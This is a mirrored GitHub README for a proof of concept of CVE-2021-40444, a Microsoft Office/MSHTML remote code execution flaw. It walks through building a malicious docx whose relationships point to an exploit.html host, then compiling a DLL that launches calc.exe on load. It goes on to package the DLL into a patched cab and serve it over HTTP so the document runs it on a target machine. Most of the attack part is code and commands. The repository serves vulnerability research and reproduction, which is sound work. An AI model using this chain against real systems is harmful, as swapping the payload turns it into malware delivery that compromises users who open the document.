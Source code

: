 # CVE-2021-40444

CVE-2021-40444 PoC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/lockedbyte](https://github.com/lockedbyte) |
| Url      | [https://github.com/lockedbyte/CVE-2021-40444](https://github.com/lockedbyte/CVE-2021-40444)                                               |
| Stars    | 1475                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-40444

Reproduce steps for CVE-2021-40444

These reproduction steps are based on some reverse engineering over the sample used in-the-wild: 938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52 (docx file).

## Generating docx

Go to `maldoc/word/_rels/document.xml.rels` and edit the two ocurrences for `http://<HOST>` with the URL to the exploit.html Eg.: `http://127.0.0.1/exploit.html` file.

Generate docx:

`cd maldoc/ ; zip -r maldoc.docx *`

## Generating malicious cab

```
#include <windows.h>

void exec(void) {
	system("C:\\Windows\\System32\\calc.exe");
	return;
}

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason, 
    LPVOID lpReserved )
{
    switch( fdwReason ) 
    { 
        case DLL_PROCESS_ATTACH:
           exec(); 
           break;

        case DLL_THREAD_ATTACH:
            break;

        case DLL_THREAD_DETACH:
            break;

        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Exec:

`i686-w64-mingw32-gcc -shared calc.c -o calc.dll`

Generate cab (install lcab `sudo apt-get install lcab`)

`cp calc.dll championship.inf ; mkdir gen/ ; cd gen/ ; lcab '../championship.inf' out.cab`

Copy out.cab into `www/` directory, modify exploit.html to point to `http://127.0.0.1/out.cab`
  
Execute Python script: `patch_cab.py`
  
Finally, setup server:
  
`cd www/ ; sudo python3 -m http.server 80`

# End

Execute now maldoc.docx in target VM

If not working, make sure there is a `championship.inf` file at `C:\Users\<user>\AppData\Temp\`

If file is present but DLL did not get executed, make sure you are opening docx from a folder reached from by exploit.html, like Documents, Desktop, or Downloads.

# More

To automatically resolve the array obfuscation on HTML file use `deobfuscate.py` (already has hardcoded the mutated array)

Anyway, there is already a deobfuscated version: `deob.html`



## Get the content

```
git clone https://github.com/lockedbyte/CVE-2021-40444
cd CVE-2021-40444
```

{% embed url="https://github.com/lockedbyte/CVE-2021-40444" %}

<figure><img src="https://avatars.githubusercontent.com/u/37779789?v=4" alt=""><figcaption><p>lockedbyte</p></figcaption></figure>
